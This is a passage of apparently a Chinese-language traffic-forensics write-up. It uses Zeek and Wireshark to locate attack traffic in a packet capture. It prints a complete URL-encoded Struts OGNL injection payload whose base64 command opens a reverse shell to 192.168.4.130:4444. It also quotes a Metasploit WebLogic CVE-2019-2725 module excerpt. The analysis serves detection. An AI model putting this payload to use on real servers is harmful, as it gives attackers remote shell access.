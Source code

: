 根据 `数据包大小` `目标 IP` 等信息，检查可疑流量

根据 `resp_fuids` 字段追踪到 `extract_files` 文件夹中的文件 [`extract-1721031278.696195-HTTP-F09DHeMj0fa3AJXZf`](../code/lihan_code/tcpdump/test_zeek/extract_files/extract-1721031278.696195-HTTP-F09DHeMj0fa3AJXZf)

在 `extract_files` 文件中找到攻击流量

```bash
# cat extract_files/extract-1721031278.696195-HTTP-F09DHeMj0fa3AJXZf
id=%25%7b%28%23instancemanager%3d%23application%5b%22org.apache.tomcat.InstanceManager%22%5d%29.%28%23stack%3d%23attr%5b%22com.opensymphony.xwork2.util.ValueStack.ValueStack%22%5d%29.%28%23bean%3d%23instancemanager.newInstance%28%22org.apache.commons.collections.BeanMap%22%29%29.%28%23bean.setBean%28%23stack%29%29.%28%23context%3d%23bean.get%28%22context%22%29%29.%28%23bean.setBean%28%23context%29%29.%28%23macc%3d%23bean.get%28%22memberAccess%22%29%29.%28%23bean.setBean%28%23macc%29%29.%28%23emptyset%3d%23instancemanager.newInstance%28%22java.util.HashSet%22%29%29.%28%23bean.put%28%22excludedClasses%22%2c%23emptyset%29%29.%28%23bean.put%28%22excludedPackageNames%22%2c%23emptyset%29%29.%28%23execute%3d%23instancemanager.newInstance%28%22freemarker.template.utility.Execute%22%29%29.%28%23execute.exec%28%7b%22bash%20-c%20%7becho%2cYmFzaCAtYyAnMDwmMTg0LTtleGVjIDE4NDw%2bL2Rldi90Y3AvMTkyLjE2OC40LjEzMC80NDQ0O3NoIDwmMTg0ID4mMTg0IDI%2bJjE4NCc%3d%7d%7c%7bbase64%2c-d%7d%7cbash%22%7d%29%29%7d
```

##### `CVE-2019-2725` 分析

1. wireshark 分析

根据 [`exploit/multi/misc/weblogic_deserialize_asyncresponseservice 模组的源码`](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/weblogic_deserialize_asyncresponseservice.rb) ：
```ruby
def check
  res = send_request_cgi(
    'uri' => normalize_uri(target_uri.path),
    'method' => 'POST',
    'ctype' => 'text/xml',
    'headers' => { 'SOAPAction' => '' }
  )

...

when 'Unix', 'Solaris'
  string0_cmd = '/bin/bash'
  string1_param = '-c'
  shell_payload = payload.encoded
```
使用 `xml.cdata contains "/bin/bash"` 进行过滤 成功找到攻击流量
